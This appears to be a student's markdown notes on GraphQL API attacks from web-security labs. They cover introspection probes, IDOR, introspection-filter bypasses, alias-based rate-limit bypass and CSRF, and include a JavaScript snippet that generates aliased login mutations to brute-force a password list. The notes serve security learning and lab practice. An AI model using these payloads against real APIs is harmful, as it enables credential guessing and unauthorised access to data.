










#### Universal queries

If we send `query{__typename}` to any GraphQL endpoint, it will include the string `{"data": {"__typename": "query"}}` somewhere in its response. This is known as a universal query. This is very useful for probing graphql api.The query works because every GraphQL endpoint has a reserved field called `__typename` that returns the queried object's type as a string.


#### Common Endpoints
* `/graphql`
* `/api`
* `/api/graphql`
* `/graphql/api`
* `/graphql/graphql`

If these common endpoints don't return a GraphQL response, you could also try appending `/v1` to the path.
> **Note**: GraphQL services will often respond to any non-GraphQL request with a "query not present" or similar error.

#### Exploiting unsanitized arguments
**IDOR**:
For example, the query below requests a product list for an online shop:

```
    #Example product query

    query {
        products {
            id
            name
            listed
        }
    }
```
The product list returned contains only listed products.

```
    #Example product response

    {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }
```
From this we can see that the product id 3 is not listed as it may have been delisted.

We can view the id 3 product by :
```
 query {
        product(id: 3) {
            id
            name
            listed
        }
    }
```
This query will give the respons with the details of the product id 3.

#### Discovering schema information

In this we have to map out the underlying schema by testing the api. There is an in-built tool called introspection in GrapgQL itself which will help get information about the schema. We can use the query `__schema` field. This field is available on the root type of all queries.

```
    #Introspection probe request

    {
        "query": "{__schema{queryType{name}}}"
    }
```
This query can be used to get the details about all the available queries
>**Note:** Burp Scanner can automatically test for introspection during its scans. If it finds that introspection is enabled, it reports a "GraphQL introspection enabled" issue.

The following query gives the full details about on queries, mutations, subscriptions, types, and fragments.
```
    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
>**Note:** If introspection is enabled but the above query doesn't run, try removing the onOperation, onFragment, and onField directives from the query structure. Many endpoints do not accept these directives as part of an introspection query, and you can often have more success with introspection by removing them.

>**Note:** Reading the data given by the above query will be very hard to do. Hence, we have to view the relationships between schema entities using a GraphQL visualizer.

#### Suggestions

Even if introspection is entirely disabled, we can sometimes use suggestions to glean information on an API's structure.

Suggestions are a feature of the Apollo GraphQL platform in which the server can suggest query amendments in error messages. These are generally used where a query is slightly incorrect but still recognizable (for example, `There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`).

Clairvoyance is a tool that uses suggestions to automatically recover all or part of a GraphQL schema, even when introspection is disabled.

#### Lab: Accessing private GraphQL posts
<br>

</br>

<br>

</br>

After this we take data in the post password and put it in the submit option in the website.

#### Lab: Accidental exposure of private GraphQL fields
<br>

</br>

<br>

</br>

After logging into administrator's account go to admin panel and then delete the user carlos.

#### Bypassing GraphQL introspection defenses

When developers disable introspection, they could use a regex to exclude the __schema keyword in queries. We should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

example:
```
    #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

If this doesn't work, try running the probe over an alternative request method, as introspection may only be disabled over POST. Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.

The example below shows an introspection probe sent via GET, with URL-encoded parameters.
```
# Introspection probe as GET request

    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
>**IMP** : https://graphql.org/learn/introspection/
> **Very imp** : https://github.com/swisskyrepo/PayloadsAllTheThings

#### Lab: Finding a hidden GraphQL endpoint

<br>

</br>

<br>

</br>

#### Bypassing rate limiting using aliases
Aliases enables us to bypass this restriction by explicitly naming the properties we want the API to return. We can use aliases to return multiple instances of the same type of object in one request.

Example attack:
```
#Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```

#### Lab: Bypassing GraphQL brute force protections

Payload (hint) insert in the console:
```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

<br>

</br>

<br>

</br>

#### Graphql CSRF

Cross-site request forgery (CSRF) vulnerabilities enable an attacker to induce users to perform actions that they do not intend to perform. This is done by creating a malicious website that forges a cross-domain request to the vulnerable application.

CSRF vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented.

POST requests that use a content type of `application/json` are secure against forgery as long as the content type is validated. In this case, an attacker wouldn't be able to make the victim's browser send this request even if the victim were to visit a malicious site.

However, alternative methods such as GET, or any request that has a content type of `x-www-form-urlencoded`, can be sent by a browser and so may leave users vulnerable to attack if the endpoint accepts these requests. Where this is the case, attackers may be able to craft exploits to send malicious requests to the API.

>The steps to construct a CSRF attack and deliver an exploit are the same for GraphQL-based CSRF vulnerabilities as they are for "regular" CSRF vulnerabilities.

#### Lab: Performing CSRF exploits over GraphQL

<br>

</br>

After finding this We use the html code [exploit](https://github.com/RealGameTheory/Portswigger/blob/main/GraphQLapi/gqlapilab5exploit.html) and we get the following output

<br>

</br>
